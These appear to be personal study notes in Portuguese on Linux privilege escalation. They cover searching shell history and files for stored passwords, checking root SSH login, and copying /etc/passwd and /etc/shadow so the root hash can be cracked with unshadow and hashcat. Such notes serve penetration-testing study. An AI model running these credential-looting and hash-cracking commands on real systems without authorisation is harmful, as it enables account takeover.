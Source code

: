 ___

# Escalation via Stored Passwords

- `history`
- `cat .bash_history | grep pass`
- [Payload All The Things - Looting for Passwords](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#looting-for-passwords)
- `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`
- **Sempre olhar nos arquivos de configurações!!**

___

# Week File Permission

- Para confirmar se o root pode logar via SSH na máquina, é só rodar `grep PermitRootLogin /etc/ssh/sshd_config`

## Unshadowing

```
ls -la /etc/passwd
-rw-r--r-- 1 root root 950 Jun 17  2020 /etc/passwd


ls -la /etc/shadow
-rw-rw-r-- 1 root shadow 809 Jun 17  2020 /etc/shadow
```

- Para quebrar a hash do root
```
cat /etc/passwd
# Copiar o passwd


cat /etc/shadow
# Copiar o shadow


unshadow passwd.txt shadow.txt > unshadow.txt
# Pesquisar no hashcat por $6$ (inicio da hash)


hashcat -m 1800 unshadowed.txt rockyou.txt -O

```


- [Hashcat - Exemplos de hash ](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [[Cracking Password#Linux shadow passwd]]
